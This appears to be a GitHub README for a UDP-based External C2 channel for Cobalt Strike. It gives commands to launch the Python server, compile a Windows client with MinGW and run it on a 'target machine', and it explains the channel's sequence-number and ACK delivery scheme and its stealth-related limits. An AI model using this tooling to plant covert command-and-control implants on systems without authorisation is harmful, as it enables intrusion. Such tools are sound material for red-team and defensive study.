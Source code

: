 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.  

If you have the MinGW compiler installed, you may compile the client.c code with the following command:

> i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename] [Target IP] [Target Port] [Sleep]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Target IP] is the IP address of the machine the client runs on.
- [Target Port] is the port you wish to communicate through on the target.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The timeout and packet max size are defined in the code. If you change it, it is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back. Currently, the timeout is 5 seconds for the server and 10 seconds for the client. The packet payload max size is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- This channel does not disconnect its beacon connection. If the server goes down, the client will continue sending packet retransmissions to the dead IP address until the process is killed. This may pose stealth issues.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be added as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea I had was to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the timeout and packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Roll over the sequence number once it reaches its max.
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.
